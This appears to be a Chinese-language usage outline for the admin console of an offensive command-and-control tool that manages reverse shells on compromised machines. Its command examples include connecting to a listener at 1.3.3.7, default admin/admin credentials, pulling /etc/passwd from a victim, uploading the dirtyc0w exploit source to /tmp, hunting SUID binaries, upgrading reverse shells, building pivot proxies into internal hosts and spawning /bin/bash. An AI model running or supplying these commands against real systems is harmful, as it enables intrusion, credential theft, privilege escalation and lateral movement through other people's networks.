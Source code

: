 ## 管理端

1. 认证
2. 获取服务端信息
	* 版本号
	* 当前监听的服务
	* 每个服务上线的机器
3. 进入主菜单
	* 服务器
		* 增删改查
	* 客户端
		* 删查
	* 选择客户端
4. 进入客户端菜单
	* 列信息
	* 文件操作
		* 上传，下载
	* 隧道操作
		* 增删查
	* 交互式 Shell

### 命令

```
./admin
```

```
>> help
>> connect
	connect --host 1.3.3.7 --port 7331
>> auth
	auth --username admin --password admin
>> run
	run --host 192.168.1.1 --port 13337
>> info
	info --hash d41d8cd98f00b204e9800998ecf8427e
>> list
	list
>> delete
	delete --hash d41d8cd98f00b204e9800998ecf8427e
>> select
	common
		>> info
		>> back
		>> gather
			gather --all
			gather --suid
		>> download
			download --src /etc/passwd --dst ./passwd
		>> upload
			upload --src ./dirtyc0w.c --dst /tmp/dirtyc0w.c
	rsh
		>> upgrade
			upgrade --host 1.3.3.7 --port 7331
		>> pty
	termite
		>> proxy
			proxy --create --type pull --remote-host 192.168.1.1 --remote-port 22 --local-port 1022
			proxy --create --type push --local-host 127.0.0.1 --local-port 1080 --remote-port 1090
			proxy --create --type dynamic --local-port 1090
			proxy --create --type internet --remote-port 1090
			proxy --delete --id 1
			proxy --list
		>> interact
			interact --spawn /bin/bash
>> exit
```
